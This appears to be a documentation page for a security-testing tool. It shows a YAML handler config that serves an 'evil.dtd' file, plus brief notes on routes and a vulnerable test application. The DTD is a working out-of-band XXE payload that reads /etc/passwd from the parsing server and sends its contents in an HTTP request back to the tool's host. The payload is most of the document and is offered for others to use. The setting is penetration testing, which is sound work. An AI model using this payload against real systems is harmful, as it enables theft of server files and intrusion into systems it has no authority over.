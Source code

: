 ```yaml
---
title: XXE DTD
description: More XXE
weight: 1
pattern: /evil\.dtd$
is_final: true
data:
  headers:
    Content-Type: text/xml
  body: |-
    <!ENTITY % payl SYSTEM "file:///etc/passwd">
    <!ENTITY % int "<!ENTITY % trick SYSTEM 'http://{{.Request.Host}}:80/{{ .NotifyString }}/xxe?p=%payl;'>">

---
```


### /dt

A vulnerable application for testing is in [../../../../cmd/xodbox-validator](../../../../cmd/xodbox-validator)


### /evil.dtd

dtd for use by others
